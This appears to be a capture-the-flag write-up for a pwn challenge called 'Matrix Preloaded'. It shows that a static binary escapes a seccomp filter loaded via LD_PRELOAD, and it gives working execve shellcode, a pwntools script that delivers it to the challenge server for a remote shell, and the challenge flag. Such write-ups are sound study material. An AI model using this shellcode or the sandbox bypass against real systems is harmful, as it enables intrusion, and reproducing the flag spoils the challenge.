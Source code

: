 https://ctftime.org/event/2234/

# Matrix Preloaded ~ PWN

We’ll let you run any code you wish, Mr. Anderson. We trust that you won’t do anything irresponsible.

nc 158.178.197.18 39909

https://dl.1753ctf.com/matrix-preloaded?s=Dgr59R5h

## Solution

When invoked with a static binary the `LD_PRELOAD` directive has no effect. As a result the seccomp filter doesn't apply and you can use any syscalls.

```
; nasm -felf64 shellcode.asm && ld shellcode.o -o shellcode

section .text
global _start

_start:
    push rax
    xor rdx, rdx
    mov rbx, 0x68732f2f6e69622f
    push rbx
    push rsp
    pop rdi
    mov al, 59
    syscall
```

```
from pwn import *
import struct

REMOTE_IP = "158.178.197.18"
REMOTE_PORT = 39909

p = remote(REMOTE_IP, REMOTE_PORT)

with open("./shellcode", "rb") as f:
    shellcode = f.read()

p.send(struct.pack('!H', len(shellcode)))

p.sendline(shellcode)

p.clean()

p.interactive()
```

After getting the shell simply `cat ./flag`.

## Flag
`1753c{there_is_no_preload_theres_just_ld_linux_x86_64_so_2}`
